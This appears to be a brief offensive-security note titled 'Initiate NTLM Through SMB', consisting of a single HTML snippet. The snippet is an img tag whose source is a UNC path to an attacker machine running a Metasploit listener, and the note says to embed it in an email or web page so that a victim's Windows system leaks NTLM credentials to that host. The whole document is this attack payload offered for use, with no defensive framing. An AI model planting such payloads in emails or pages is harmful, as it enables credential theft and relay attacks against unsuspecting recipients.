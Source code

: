 # Initiate NTLM Through SMB
##### Embed an SMB Link in an E-Mail or Web Page
```html
<img src="\\Attack Box with Metasploit Listener\Share">
```